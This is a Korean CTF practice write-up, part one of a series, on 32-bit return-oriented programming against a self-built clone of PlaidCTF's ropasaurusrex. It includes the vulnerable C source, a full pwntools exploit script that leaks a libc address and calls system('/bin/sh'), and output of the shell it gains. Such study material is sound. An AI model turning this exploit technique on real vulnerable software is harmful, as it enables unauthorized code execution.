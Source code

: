 # 상준이가 문제 줌#2-1
### Thx to s0ngsari

##### 32bit 환경에서의 ROP와 64bit 환경에서의 ROP 를 직접 해보고 Payload 구성의 차이를 알아보자.

###### 대상 : ropasaurusrex (2013 Plaid CTF)

---
##### ROP 를 공부하는 사람들이 필수적으로 접해보는 문제는?  
2013 년 PlaidCTF에 출제되었던 ropasaurusrex 이다.

이번 글은 군복무를 하면서 잃어버린 포너블의 감을 되 찾자는 의미에서

32bit ROP와 64bit ROP를 직접 해보고

Payload 구성에 있어 어떤 차이가 있는지 공부하기 위해 만들어 봤다.

※사실 이경원이 32bit도 못하는거 아니냐는 질문에 열받아서 쓴다.

ropasaurusrex 가 출제되었을 당시 libc가 같이 제공되었으나 왠지모르게... 바이너리만 돌아다닌다.

비교적 근사한 환경을 위해 ropasaurusrex 와 똑같은 파일을 만들어 보자.

```c
#include <stdio.h>

void function()
{
  char buf[128];
  read(0,buf,256);
}


int main()
{
  function();
  write(1,"win\n",4);
}

// compile option : -fno-stack-protector -m32
```

이제 알고 있던 지식을 조금씩 더듬으며 ROP를 해보자.

32bit의 경우 먼저 stack이 EIP 레지스터가 덮이는 위치를 확인해보자.

```
r <<< $(python -c 'print "A"*140')
Starting program: /home/secretpack/Desktop/roptech/ropprac <<< $(python -c 'print "A"*140')

Program received signal SIGSEGV, Segmentation fault.
0xf7fb53dc in __exit_funcs () from /lib/i386-linux-gnu/libc.so.6
```

```
r <<< $(python -c 'print "A"*144')
Starting program: /home/secretpack/Desktop/roptech/ropprac <<< $(python -c 'print "A"*144')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

144byte를 쑤셔넣으니 EIP가 바뀐 것을 확인할 수 있다.

이제 쉘을 획득해야 하는데
```
secretpack@ubuntu:~/Desktop/roptech$ pwn checksec ropprac
[*] '/home/secretpack/Desktop/roptech/ropprac'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
ropsasurusrex와 똑같이 NX enable 이라 쉘코드를 쓸 수가 없다.

배웠던 내용들을 토대로 기억을 더듬으며 코드를 작성해보자

```python
from pwn import*

p = process("./ropprac")

elf = ELF('ropprac')
read_plt = elf.plt['read']
read_got = elf.got['read']
write_plt = elf.plt['write']
write_got = elf.got['write']
bss = elf.bss()
binsh = "/bin/sh\x00"
pppr = 0x80484f9
offset = 0x9ad60

payload = "A"*140
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(len(binsh)+1)

payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += "AAAA"
payload += p32(bss)

p.sendline(payload)
p.sendline(binsh)
sleep(1)

leak = u32(p.recv(4))
system = leak - offset

p.sendline(p32(system))
p.interactive()
```
물론 중간에 offset을 구하는 과정이라던가 pppr 가젯을 어떻게 가져왔는지는 생략되어있다.

* lld <binary name> 명령을 통해 어떤 라이브러리를 사용했는지 알 수 있다.
* 필자는 /lib/i386-lunux-gnu/libc.s0.6 파일이 사용되었다.
* gdb로 열어 p read, p system 명령을 통해 주소를 가져와 차를 구해 offset을 구할 수 있다.
* pop pop pop ret 가젯은 objdump -D <binary_name> 을 통해 구했다.

```
secretpack@ubuntu:~/Desktop/roptech$ python exp.py
[+] Starting local process './ropprac': pid 1149
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
##### 경원아 이정도는 할줄안다 이 ㅅㅂㄴㅇ
##### 다음에는 64bit에서의 ROP를 알아보자.
## 2부에서 계속
